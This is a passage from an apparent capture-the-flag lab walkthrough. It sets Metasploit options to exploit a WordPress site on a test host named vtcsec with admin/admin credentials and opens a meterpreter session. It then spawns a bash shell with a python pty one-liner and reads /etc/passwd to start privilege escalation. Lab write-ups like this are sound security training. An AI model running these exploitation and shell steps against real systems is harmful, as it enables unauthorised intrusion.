 - `set RHOST vtcsec` - set the target host
- `set TARGETURI /secret/` - set the path to the wordpress
- `set USERNAME admin` - set the username to log in as
- `set PASSWORD admin` - set the password for the user

Now we just `run` the exploit and a meterpreter session should be created. In meterpreter we type `shell` to drop into the system command shell. Once in system shell, we take a look at the current user info.

![getting system shell as www-data](wp-shell-meterpreter.png)

#### Privilege escalation path #1

We have shell as `www-data` user. Let's try to escalate our privileges to the `root` user.

First, to make the shell more pretty, we can issue `python -c 'import pty; pty.spawn("/bin/bash")'`.

First thing to look at is always the `/etc/passwd` file to see what other users are on the system. Aside from a number of service accounts, there is a user called `marlinspike` (a reference to a well-known security researcher [Moxie Marlinspike](https://en.wikipedia.org/wiki/Moxie_Marlinspike)).

```bash
www-data@vtcsec:/etc$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
...
marlinspike:x:1000:1000:marlinspike,,,:/home/marlinspike:/bin/bash
...
```
